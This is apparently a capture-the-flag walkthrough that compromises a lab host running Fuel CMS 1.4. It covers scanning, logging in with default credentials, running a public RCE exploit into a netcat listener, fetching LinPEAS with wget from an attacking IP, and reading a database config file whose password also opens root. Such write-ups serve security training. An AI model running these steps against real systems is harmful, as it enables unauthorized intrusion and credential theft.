# Enumeration
Let's use rustscan to quickly identify open ports.



We'll confirm with nmap.





Now let's take a look at the web server. We see that it is running version 1.4 of the Fuel CMS, and the default credentials are provided if we scroll down.





Navigating to the `/fuel` directory, we find a login page.



Luckily, the default credentials still work.


 

# Exploitation
Googling "Fuel CMS 1.4 exploit" reveals a few possibilities. We will make use of [this exploit](https://github.com/AssassinUKG/fuleCMS). First set up a netcat listener. Then, download the python script and run it with `python3 fuelCMS.py <target IP>`.





Just like that, we have an initial foothold. Let's upgrade our shell with `import pty;pty.spawn("/bin/bash")`. From here, we can easily find the `user.txt` flag in our current user's home directory.


 

# Post-Exploitation
Let's use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.



Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions. Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`.  We find a possible password in a database backup file:



Since we have read permissions for the database file, we can check this for ourselves by using `cat /var/www/html/fuel/application/config/database.php`.



Notice that this ties the root user to the password we found! If we use `su root` and we input the password we found, we see that this is indeed the case. Finally, we find the `root.txt` flag in the root user's home directory.

